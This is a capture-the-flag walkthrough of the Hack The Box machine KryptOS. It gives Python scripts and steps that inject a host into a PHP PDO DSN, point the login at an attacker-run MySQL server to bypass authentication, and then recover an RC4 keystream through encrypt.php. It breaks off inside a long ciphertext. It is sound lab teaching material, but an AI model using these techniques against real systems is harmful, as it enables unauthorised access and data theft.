


# HTB KryptOS (10.10.10.129) MACHINE WRITE-UP

## PART 1 : INITIAL RECON

```console
nmap --min-rate 700 -p- -v 10.10.10.129
```
```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```
```console
nmap -oN kryptos.nmap -p 22,80 -sC -sV -v 10.10.10.129
```
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 2c:b3:7e:10:fa:91:f3:6c:4a:cc:d7:f4:88:0f:08:90 (RSA)
|   256 0c:cd:47:2b:96:a2:50:5e:99:bf:bd:d0:de:05:5d:ed (ECDSA)
|_  256 e6:5a:cb:c8:dc:be:06:04:cf:db:3a:96:e7:5a:d5:aa (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Cryptor Login
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

---

## PART 2 : PORT ENUMERATION

1. HTTP service at __port 80__:
   - Landing Page:

     

   - Page Source:

     ```html
     <html>
     <head>
       <title>Cryptor Login</title>
       <link rel="stylesheet" type="text/css" href="css/bootstrap.min.css">
     </head>
     <body>
       <div class="container-fluid">
         <div class="container">
           <h2>Cryptor Login</h2>
           <form action="" method="post">
             <div class="form-group">
               <label for="Username">Username:</label>
               <input type="text" class="form-control" id="username" name="username" placeholder="Enter username">
             </div>
             <div class="form-group">
               <label for="password">Password:</label>
               <input type="password" class="form-control" id="password" name="password" placeholder="Enter password">
             </div>
             <input type="hidden" id="db" name="db" value="cryptor">
             <input type="hidden" name="token" value="42517f1f6b8abed04777dcdcbe2970ec04829ff65580e029e0f85d58ca4c1148" />
             <button type="submit" class="btn btn-primary" name="login">Submit</button>
           </form>
         </div>
     </body>
     </html>
     ```
     __NOTE(S)__:
     1. There are two hidden values -- `db` and `token`:
        - Fuzzing the `db` parameter returns __PDOException code: 1044__.
        - The `token` value is not reusable and should be renewed every legitimate request.
     2. `PDOException code: 1044` -- __*Access denied for user...*__:
        - __ASSUMPTION:__ It is returned when connecting to a non-existent database.
     3. __PDO__ stand for __*PHP Data Objects*__:
        - This grants PHP access to various databases.
        - The object constructor is as follows:
          ```php
          # public PDO::__construct ( string $dsn [, string $username [, string $passwd [, array $options ]]] )   
         
          new PDO($dsn, $user, $password);
          ```
   - `gobuster`:
     ```console
     gobuster dir -u http://10.10.10.129/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,txt

     # ===============================================================
     # Gobuster v3.0.1
     # by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
     # ===============================================================
     # ...omitted...
     # /index.php (Status: 200)
     # /css (Status: 301)
     # /dev (Status: 403)
     # /logout.php (Status: 302)
     # /url.php (Status: 200)
     # /aes.php (Status: 200)
     # /encrypt.php (Status: 302)
     # /rc4.php (Status: 200)   
     ```
     __NOTE(S)__:
     1. Opening `url.php`, `aes.php`, and `rc4.php` leads to empty pages.
        - They might be php files called inside `/encrypt.php`
     2. `/encrypt.php` might need an authenticated session in order to access
     3. `/dev` is a forbidden directory

---

## PART 3 : EXPLOITATION

### __PORT 80 (Login Page)__

1. What is a __Data Source Name (DSN)__?
   - Supplying a __DSN__ is required in creating a PDO instance.
   - The contents of the __DSN__ depends on what database is used.
     - __ASSUMPTION:__ The database in use is __MySQL__
     - The DSN format for the __PDO_MYSQL__ is as follows:
       ```php
       $dsn = "mysql:dbname=testdb;port=3306;host=localhost";
       ```
       - Supplying the `port` is optional (defaults to 3306).
   - `$dsn` when passed to a PDO constructor is a string.
     - All strings in PHP, if unsanitized, are vulnerable to injection when affected by user input.

   __NOTE(S)__:
   - The login form has a hidden `db` parameter with a default value `cryptor`.
   - Perhaps the `$dsn` string is as follows:
     ```php
     $dsn = "mysql:dbname=".$_POST['db'].";host=localhost";
     ```
     - The `host` parameter could also be blank or unsupplied entirely.
       ```php
       $dsn = "mysql:dbname=".$_POST['db'];
       ```

2. Bypass the login by injecting in the __DSN__ string:
   1. Create a script that can reqpeatedly send requests on the login page
      ```py
      # kryptos_login.py
      import requests as r

      target = "http://10.10.10.129"
      htb_ipv4 = "10.10.12.248"

      session = r.Session()
      req_token = session.get(target).text[737:801]
      
      while True:
          data = {i
              "username": "placeholder",
              "password": "placeholder",
              "db": "cryptor;host="+htb_ipv4,
              "token": req_token,
              "login": ""
          }
      	
          req_post = session.post(target, data=data)
      
          if "PDOException" not in req_post.text:
              req_token = req_post.text[737:801]
          else: print("RESPONSE:", req_post.text)

          if(input("Enter '0' to exit: ")=="0"): exit()
          else: print("\n")
      ```
      __NOTE(S)__:
      1. The script automatically replaces the request token since it cannot be reused.
      2. The purpose of this script is to capture the __PDOException code__ generated by the request.
         - This should help develop the circumstance necessary to bypass the login page.

   2. Run the script (kryptos_login.py) using `python3`:
      ```
      RESPONSE: PDOException code: 2002
      Enter '0' to exit: _
      ```
      __NOTE(S)__:
      1. Since the host now points to the local machine, a new error was generated.
      2. `PDOException code: 2002` is returned when PHP cannot connect to the MySQL service
         - There is no MySQL service running on the local machine; therefore, PHP has nothing to connect to.

   3. Start a MySQL service on the local machine:
      ```console
      sudo service mysql start

      netstat -lnt
      # Active Internet connections (only servers)
      # Proto Recv-Q Send-Q Local Address           Foreign Address         State      
      # tcp        0      0 0.0.0.0:3306            0.0.0.0:*               LISTEN     
      # ...omitted...
      ```
      __NOTE(S)__:
      1. The local address should be `0.0.0.0:3306` not `127.0.0.1:3306`
   
   4. Send another request using the running script, kryptos_login.py:
      ```
      RESPONSE: PDOException code: 1045
      Enter '0' to exit: _
      ```
      __NOTE(S)__:
      1. A new error message was generated.
      2. `PDOException code: 1045` is returned when authentication to the MySQL service was not validated.
  
   5. Capture remote connections to the MySQL service using `tcpdump`:
      1. Start `tcpdump`:
         ```console
         tcpdump -i tun0 port 3306 -nn -s0 -vv -XX
         ```
      2. Continue the running script, kryptos_login.py.
      3. Check the captured packets:
         ```
         ...omitted...
         19:53:20.838248 IP (tos 0x8, ttl 64, id 41282, offset 0, flags [DF], proto TCP (6), length 147)
             10.10.12.248.3306 > 10.10.10.129.41478: Flags [P.], cksum 0x75e6 (correct), seq 1:96, ack 1, win 227, options [nop,nop,TS val 2788016945 ecr 3550813062], length 95
         	0x0000:  4508 0093 a142 4000 4006 6d8e 0a0a 0cf8  E....B@.@.m.....
         	0x0010:  0a0a 0a81 0cea a206 c8e6 7811 04cf 887f  ..........x.....
         	0x0020:  8018 00e3 75e6 0000 0101 080a a62d c331  ....u........-.1
         	0x0030:  d3a5 1b86 5b00 0000 0a35 2e35 2e35 2d31  ....[....5.5.5-1
         	0x0040:  302e 332e 3135 2d4d 6172 6961 4442 2d31  0.3.15-MariaDB-1
         	0x0050:  0038 0000 0046 7a53 6e52 3038 6600 fef7  .8...FzSnR08f...
         	0x0060:  2d02 00bf 8115 0000 0000 0000 0700 0000  -...............
         	0x0070:  7a53 6d4c 7528 6547 7125 6138 006d 7973  zSmLu(eGq%a8.mys
         	0x0080:  716c 5f6e 6174 6976 655f 7061 7373 776f  ql_native_passwo
         	0x0090:  7264 00                                  rd.
         ...omitted...
         19:53:21.041103 IP (tos 0x0, ttl 63, id 29450, offset 0, flags [DF], proto TCP (6), length 168)
             10.10.10.129.41478 > 10.10.12.248.3306: Flags [P.], cksum 0x01ba (correct), seq 1:117, ack 96, win 229, options [nop,nop,TS val 3550813290 ecr 2788016945], length 116
         	0x0000:  4500 00a8 730a 4000 3f06 9cb9 0a0a 0a81  E...s.@.?.......
         	0x0010:  0a0a 0cf8 a206 0cea 04cf 887f c8e6 7870  ..............xp
         	0x0020:  8018 00e5 01ba 0000 0101 080a d3a5 1c6a  ...............j
         	0x0030:  a62d c331 7000 0001 8da2 0b00 0000 00c0  .-.1p...........
         	0x0040:  2d00 0000 0000 0000 0000 0000 0000 0000  -...............
         	0x0050:  0000 0000 0000 0000 6462 7573 6572 0014  ........dbuser..
         	0x0060:  efdc c161 a295 1e9e a2c1 eb55 30a2 71c5  ...a.......U0.q.
         	0x0070:  c67f 2924 6372 7970 746f 7200 6d79 7371  ..)$cryptor.mysq
         	0x0080:  6c5f 6e61 7469 7665 5f70 6173 7377 6f72  l_native_passwor
         	0x0090:  6400 150c 5f63 6c69 656e 745f 6e61 6d65  d..._client_name
         	0x00a0:  076d 7973 716c 6e64                      .mysqlnd
         ...omitted...
         19:53:21.041276 IP (tos 0x8, ttl 64, id 41284, offset 0, flags [DF], proto TCP (6), length 133)
             10.10.12.248.3306 > 10.10.10.129.41478: Flags [P.], cksum 0x2afb (correct), seq 96:177, ack 117, win 227, options [nop,nop,TS val 2788017148 ecr 3550813290], length 81
         	0x0000:  4508 0085 a144 4000 4006 6d9a 0a0a 0cf8  E....D@.@.m.....
         	0x0010:  0a0a 0a81 0cea a206 c8e6 7870 04cf 88f3  ..........xp....
         	0x0020:  8018 00e3 2afb 0000 0101 080a a62d c3fc  ....*........-..
         	0x0030:  d3a5 1c6a 4d00 0002 ff15 0423 3238 3030  ...jM......#2800
         	0x0040:  3041 6363 6573 7320 6465 6e69 6564 2066  0Access.denied.f
         	0x0050:  6f72 2075 7365 7220 2764 6275 7365 7227  or.user.'dbuser'
         	0x0060:  4027 3130 2e31 302e 3130 2e31 3239 2720  @'10.10.10.129'.
         	0x0070:  2875 7369 6e67 2070 6173 7377 6f72 643a  (using.password:
         	0x0080:  2059 4553 29                             .YES)
         ...omitted...
         ```
         __NOTE(S)__:
         1. The client authenticates using the `mysql_native_password` plugin:
            - The password is hashed and is therefore difficult to retrieve.
         2. The `PDOException code: 1045` message was due to:
            ```
            Access denied for user 'dbuser'@'10.10.10.129' (using password: YES)
            ```

   6. Create a MySQL user named __dbuser__:
      ```console
      mysql -uroot -p
      Enter password: 
      ```
      - Inside the Command Line Interface: 
        ```sql
        CREATE USER 'dbuser'@'10.10.10.129' IDENTIFIED WITH mysql_native_password;
        GRANT ALL PRIVILEGES ON *.* TO 'dbuser'@'%' IDENTIFIED WITH mysql_native_password;
        FLUSH PRIVILEGES;
        ```
      __NOTE(S)__:
      - The authentication would still throw an error since the password cannot be authenticated

   7. Ignore the password authentication using `--skip-grant-tables`
      ```console
      sudo service mysql stop
      sudo mysqld --skip-grant-tables &
      ```
      __NOTE(S)__:
      1. `--skip-grant-tables` is commonly used to reset forgotten root passwords in MySQL.
         - This switch lets you use the services without authenticating.
         - This is particularly helpful since a local instance of MySQL is being manipulated.

   8. Continue the script, kryptos_login.py, then check the packets captured by `tcpdump`:
      - __kryptos_login.py__:
        ```
        RESPONSE: PDOException code: 1049
        Enter '0' to exit: _
        ```
      - `tcpdump`:
        ```pcap
        ...omitted...
        20:55:22.843127 IP (tos 0x8, ttl 64, id 6821, offset 0, flags [DF], proto TCP (6), length 91)
          10.10.12.248.3306 > 10.10.10.129.41502: Flags [P.], cksum 0x6c24 (correct), seq 96:135, ack 117, win 227, options [nop,nop,TS val 2791738950 ecr 3554535048], length 39
             0x0000:  4508 005b 1aa5 4000 4006 f463 0a0a 0cf8  E..[..@.@..c....
      	     0x0010:  0a0a 0a81 0cea a21e 1a3a 11aa 53c8 665f  .........:..S.f_
      	     0x0020:  8018 00e3 6c24 0000 0101 080a a666 8e46  ....l$.......f.F
      	     0x0030:  d3dd e688 2300 0002 ff19 0423 3432 3030  ....#......#4200
      	     0x0040:  3055 6e6b 6e6f 776e 2064 6174 6162 6173  0Unknown.databas
      	     0x0050:  6520 2763 7279 7074 6f72 27              e.'cryptor'
        ...omitted...
        ```
        __NOTE(S)__:
        1. `PDOException code: 1049` is thrown when the client is trying to connect to a non-existent database.
           - An `Unkown database 'cryptor'` was captured by tcpdump.
           - Inside the MySQL Command Line Interface, create a database named __cryptor__:
             ```sql
             CREATE DATABASE cryptor;
             # Query OK, 1 row affected (0.000 sec)
             ```

    9. Continue the script, kryptos_login.py, again then also check the packets captured by `tcpdump`:
       - __kryptos_login.py__:
         ```
         Enter '0' to exit: _
         ```
       - `tcpdump`:
         ```
         ...omitted...
         21:16:47.377815 IP (tos 0x0, ttl 63, id 656, offset 0, flags [DF], proto TCP (6), length 171)
             10.10.10.129.41516 > 10.10.12.248.3306: Flags [P.], cksum 0x8232 (correct), seq 117:236, ack 107, win 229, options [nop,nop,TS val 3555819565 ecr 2793023291], length 119
	        0x0000:  4500 00ab 0290 4000 3f06 0d31 0a0a 0a81  E.....@.?..1....
	        0x0010:  0a0a 0cf8 a22c 0cea 4989 172d e05a 8bf1  .....,..I..-.Z..
	        0x0020:  8018 00e5 8232 0000 0101 080a d3f1 802d  .....2.........-
	        0x0030:  a67a 273b 7300 0000 0353 454c 4543 5420  .z';s....SELECT.
	        0x0040:  7573 6572 6e61 6d65 2c20 7061 7373 776f  username,.passwo
	        0x0050:  7264 2046 524f 4d20 7573 6572 7320 5748  rd.FROM.users.WH
	        0x0060:  4552 4520 7573 6572 6e61 6d65 3d27 706c  ERE.username='pl
	        0x0070:  6163 6568 6f6c 6465 7227 2041 4e44 2070  aceholder'.AND.p
	        0x0080:  6173 7377 6f72 643d 2736 6139 3963 3537  assword='6a99c57
	        0x0090:  3561 6238 3766 3863 3764 3165 6431 6535  5ab87f8c7d1ed1e5
	        0x00a0:  3265 3765 3334 3963 6527 20              2e7e349ce'.
         21:16:47.378054 IP (tos 0x8, ttl 64, id 31141, offset 0, flags [DF], proto TCP (6), length 100)
             10.10.12.248.3306 > 10.10.10.129.41516: Flags [P.], cksum 0x8b2c (correct), seq 107:155, ack 236, win 227, options [nop,nop,TS val 2793023485 ecr 3555819565], length 48
	        0x0000:  4508 0064 79a5 4000 4006 955a 0a0a 0cf8  E..dy.@.@..Z....
	        0x0010:  0a0a 0a81 0cea a22c e05a 8bf1 4989 17a4  .......,.Z..I...
	        0x0020:  8018 00e3 8b2c 0000 0101 080a a67a 27fd  .....,.......z'.
	        0x0030:  d3f1 802d 2c00 0001 ff7a 0423 3432 5330  ...-,....z.#42S0
	        0x0040:  3254 6162 6c65 2027 6372 7970 746f 722e  2Table.'cryptor.
	        0x0050:  7573 6572 7327 2064 6f65 736e 2774 2065  users'.doesn't.e
	        0x0060:  7869 7374                                xist
         ...omitted...
         ```
       __NOTE(S)__:
       1. No more `PDOException` errors are thrown.
       2. The login page can now connect to the local MySQL service without any problems.
       3. The query generated by the login page and the server response were intercepted by `tcpdump`:
          - Query:
            ```sql
            SELECT username, password FROM users WHERE username='placeholder' AND password='6a99c575ab87f8c7d1ed1e52e7e349ce'
            ```
          - Response:
            ```
            #42S02Table 'cryptor.users' doesn't exist 
            ```
       4. The credentials being sent by kryptos_login.py is placeholder:placeholder:
          - `6a99c575ab87f8c7d1ed1e52e7e349ce` must be a hash of `placeholder`
       5. Create and fill the table `cryptor.users` with the credentials from the request:
          - Inside the MySQL Command Line Interface:
            ```sql
            CREATE TABLE cryptor.users (id int, username varchar(32), password varchar(256));
            # Query OK, 0 rows affected (0.006 sec)
            
            INSERT INTO cryptor.users VALUES (1, "placeholder", "6a99c575ab87f8c7d1ed1e52e7e349ce");
            # Query OK, 1 row affected (0.002 sec)
            ```
 
       6. Login with the following POST request:
          ```http
          username=placeholder&password=placeholder&db=cryptor;host=10.10.12.248&token=<a new token>&login=
          ``` 

### __PORT 80 (encrypt.php)__

1. After a successful login:
   - Landing page:

     

     __NOTE(S)__:
     1. The page can encrypt files loaded via `http://`
        - This includes files loaded from a local http server.
        - It can encrypt in either `AES-CBC` or `RC4`
        - AES-CBC is a block cipher while RC4 is a stream cipher
     2. In __*RC4*__, the plaintext is XORed with a *key stream* to generate the ciphertext.
        - In __*encrypt.php*__, the ciphertext never changes for the same plaintext
        - This means that the key stream generated for encryption/decryption never changes.
        - The key stream used could be generated if the plaintext and ciphertext are known.
        - Since files from the local machine could be encrypted by the server, contents of the encrypted file are known as well the generated ciphertext which means the key stream could be generated. 

   - __kryptos_encrypt.py__:
     ```py
     # kryptos_encrypt.py
     import requests as r
     
     target = "http://10.10.10.129"
     htb_ipv4 = "10.10.12.248"
     session = r.Session()
     
     def clearScreen(clear="clear"):
         __import__("os").system(clear)
     
     def encodeURL(parameter_value):
         return __import__("urllib").parse.quote(parameter_value)
     
     def encryptRC4(file_url):
         parameters = (("cipher", "RC4"), ("url", file_url))
         return session.get(target+"/encrypt.php", params=parameters)
     
     def extractText(regex_filter, text):
         return __import__("re").findall(regex_filter, text)[0]
     
     data = {
         "username": "placeholder",
         "password": "placeholder",
         "db": "cryptor;host="+htb_ipv4,
         "token": session.get(target).text[737:801],
         "login": ""
     }
     req_post = session.post(target, data=data)
     
     while True:
         clearScreen()
     
         file_in = input("Enter the URL of the file to be encrypted: ")
         if(file_in==""): exit()
         
         req_encryption = encryptRC4(file_in)
         rc4_base64 = extractText('<text.*id="output">(.*)</text', req_encryption.text)
         if(rc4_base64): print("\n[Encrypted RC4]\n\n" + rc4_base64 + "\n")
         else:
             print("\n[ERROR]\n")
             print(extractText('alert-danger">\n(.*)</div>', req_encryption.text) + "\n")
     
         input("--Press Enter to continue--")
     ```
     __NOTE(S)__:
     1. It is a __hard requirement__ that the input starts with the string `http://`
        - An error would be thrown otherwise:
          ```
          Only http scheme is supported at the moment!
          ```
        - A different error would be thrown if the file doesn't exist or is not found:
          ```
          File not found or it was empty!
          ```

2. Attempt to decrypt the RC4 encryption:
   1. Create a long string of characters then host the file in an http server:
      ```console
      python -c 'print "A"*32000' > averylongstring.txt

      python -m SimpleHTTPServer

      # Serving HTTP on 0.0.0.0 port 8000 ...
      ```

   2. Encrypt `averylongstring.txt` using __kryptos_encrypt.py__:
      ```console
      python3 kryptos_encrypt.py
      
      $ Enter the URL of the file to be encrypted: http://10.10.12.248:8000/averylongstring.txt
      # 
      # [Encrypted RC4]
      #
      # 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